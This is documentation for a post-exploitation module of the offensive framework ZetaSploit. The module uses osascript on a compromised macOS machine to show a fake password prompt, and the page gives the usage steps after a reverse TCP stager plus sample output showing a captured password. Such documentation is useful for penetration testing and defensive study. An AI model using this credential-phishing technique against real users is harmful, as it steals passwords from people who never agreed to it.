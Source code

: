 # `post/macos/zetant/gather/prompt`

## Description

This module uses system `osascript` to prompt user to type password.

## Verification Steps

1. Start ZetaSploit
2. Run `exploit/macos/stager/zetant_reverse_tcp` on target
3. Do: `use post/macos/zetant/gather/prompt`
4. Do: `set SESSION` to your target session
5. Do: `run`

## Options

| Option    | Default Value | Required | Description        |
|-----------|---------------|----------|--------------------|
| `SESSION` | 0             | yes      | Session to run on. |

**SESSION**

Variable that contains session id to run post module on it.

## Scenarios

```
(zsf: post: macos/zetant/gather/prompt)> run
[*] Waiting for prompt window to appear...
[*] Waiting for user to type password...
[i] User entered: mysuperstrongpassword1234
(zsf: post: macos/zetant/gather/prompt)>
```
